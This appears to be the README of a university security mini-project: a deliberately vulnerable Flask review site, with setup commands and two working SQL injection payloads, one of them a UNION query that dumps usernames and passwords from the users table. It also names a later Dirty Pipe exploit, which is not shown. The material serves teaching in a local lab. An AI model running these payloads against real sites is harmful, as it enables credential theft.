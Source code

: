 # INF8602 mini-projet

Fake website with SQL injection vulnerability for user credential retrieval, then Dirty Pipe exploit on the server.

## Setup

### Install the required packages
```bash
pip install flask sqlite3
``` 

### Populate the database
```bash
python populate_db.py
```

### Run the Flask app
```bash
python app.py
```
### [Access the app](http://127.0.0.1:5000)


## Exploit SQL injection

Test the SQL injection in search bar, if it returns all reviews, it means the SQL injection is successful.
```sql
' OR 1=1 --
```

Exploit the SQL injection to get users:
```sql
a%' UNION SELECT NULL AS id, 'leaked' AS user, username AS title, password AS comment, 0.0 AS rating FROM users --
```



![alt text](image.png)
